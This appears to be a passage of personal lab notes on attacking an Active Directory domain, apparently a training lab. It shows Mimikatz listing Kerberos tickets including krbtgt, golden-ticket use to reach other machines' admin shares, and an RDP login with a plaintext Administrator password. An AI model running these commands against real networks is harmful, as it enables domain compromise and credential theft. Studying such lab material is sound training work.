 > [!NOTE] Notice
> When klist result coudn't output to reverse shell (weird but actually happened) , use `kerberos::list` instead

```bash
PS C:\> Invoke-Mimikatz -Command '"kerberos::list"'
Hostname: DOMAIN-CONTROLL / S-1-5-21-849420856-2351964222-986696166

mimikatz(powershell) # kerberos::list

[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 6/8/2023 8:11:20 AM ; 6/8/2023 6:11:20 PM ; 6/15/2023 8:11:20 AM
   Server Name       : krbtgt/CONTROLLER.local @ CONTROLLER.local
   Client Name       : Administrator @ CONTROLLER.local
   Flags 40e00000    : pre_authent ; initial ; renewable ; forwardable ;
```

### Use the Golden Ticket to access other machine

> `misc::cmd` - This will open a new command prompt with elevated privileges to all machines

```bash
PS C:\> net group "Domain Computers"
Group name     Domain Computers
Comment        All workstations and servers joined to the domain

Members

-------------------------------------------------------------------------------
DESKTOP-1$               DESKTOP-2$
The command completed successfully.

PS C:\> dir \\DESKTOP-2\C$
...
```

## Enumeration w/ Server Manager
---

### Access via RDP

```bash
xfreerdp /u:Administrator /p:'P@$$W0rd' /d:CONTROLLER /v:10.10.200.19 /dynamic-resolution +clipboard /cert:ignore
```

### Useful tools

![](attachment/17a8971772996851b635b54d2dec10ec.png)
